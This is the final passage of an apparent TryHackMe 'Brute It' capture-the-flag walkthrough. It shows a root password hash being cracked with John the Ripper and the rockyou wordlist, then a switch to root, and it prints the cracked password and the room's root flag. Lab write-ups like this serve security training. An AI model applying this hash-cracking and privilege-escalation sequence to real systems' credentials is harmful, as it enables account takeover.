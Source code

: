 I saved the password hash in "root.hash" and cracked it using john and rockyou wordlist:
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ cat root.hash 
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.

┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ john root.hash --wordlist=/usr/share/wordlists/rockyou.txt                               
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2021-09-25 08:05) 3.448g/s 1765p/s 1765c/s 1765C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Root's password: `football`

## Root Flag

Now we can simply switch to root and read the root flag:

~~~
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# id
uid=0(root) gid=0(root) groups=0(root)
root@bruteit:/home/john# cd /root
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

# D0N3! ; )
Thanks to the creators of this box and hope you had fun!

Have a good one! : )
